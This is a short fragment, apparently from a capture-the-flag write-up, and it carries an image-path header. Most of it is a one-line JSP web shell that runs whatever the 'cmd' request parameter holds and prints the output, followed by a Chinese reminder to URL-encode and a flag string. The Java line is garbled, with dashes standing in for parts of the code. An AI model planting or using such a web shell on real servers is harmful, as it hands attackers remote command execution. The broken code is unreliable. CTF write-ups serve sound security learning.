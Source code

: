     //
    - java.io.InputStream in = -.getRuntime().exec(request.getParameter("cmd")).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))!=-1){ out.println(new String(b)); } -
    ```
    記得要注意URL encode
Flag: `CSC{FLAG_can_we_cut_to_the_chase?}1`